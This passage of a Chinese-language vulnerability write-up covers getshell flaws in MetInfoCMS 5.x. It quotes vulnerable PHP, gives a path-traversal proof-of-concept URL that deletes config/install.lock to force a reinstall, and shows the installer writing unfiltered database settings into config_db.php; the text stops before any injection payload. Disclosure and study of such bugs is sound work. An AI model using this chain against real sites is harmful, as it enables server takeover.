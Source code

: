 MetInfoCMS 5.X版本GETSHELL漏洞合集  

## 0x00 前言

2018年1月底MetInfoCMS官方隆重发布6.0版本，调整了之前“漏洞百出”的框架结构，修（杜）复（绝）了多个5.X的版本后台Gestshell漏洞。

## 0x01安装过程过滤不严导致Getshell

*前提:有删除/config/install.lock权限*
> 默认安装的时候设置了权限的@chmod('../config/install.lock',0554);，所以需要在权限修改了的情况下才能利用这个

### 1. 结合网上爆出的后台任意文件删除漏洞

```php
#/admin/app/batch/csvup.php

$classflie=explode('_',$fileField);
$classflie=explode('-',$classflie[count($classflie)-1]);
$class1=$classflie[0];
$class2=$classflie[1];
$class3=$classflie[2];
$class=$class3?$class3:($class2?$class2:$class1); 
$classcsv=$db->get_one("select * from $met_column where id=$class");
if(!$classcsv){
metsave("../app/batch/contentup.php?anyid=$anyid&lang=$lang",$lang_csvnocolumn,$depth);
}

# 省略代码

@file_unlink($flienamecsv);
```

删除/config/install.lock文件可以导致重装（需要由对应的删除权限），删除文件的poc如下：

```html
http://xxx.com/admin/app/batch/csvup.php?fileField=1_1231-1&flienamecsv=../../../config/install.lock
```

### 2. 重装时数据库配置文件过滤不当

```php
#/install/index.php
    case 'db_setup':
    {
        if($setup==1){
            $db_prefix      = trim($db_prefix);
            $db_host        = trim($db_host);
            $db_username    = trim($db_username);
            $db_pass        = trim($db_pass);
            $db_name        = trim($db_name);
            $config="<?php
                   /*
                   con_db_host = \"$db_host\"
                   con_db_id   = \"$db_username\"
                   con_db_pass    = \"$db_pass\"
                   con_db_name = \"$db_name\"
                   tablepre    =  \"$db_prefix\"
                   db_charset  =  \"utf8\";
                  */
                  ?>";

            $fp=fopen("../config/config_db.php",'w+');
            fputs($fp,$config);
            fclose($fp);
```
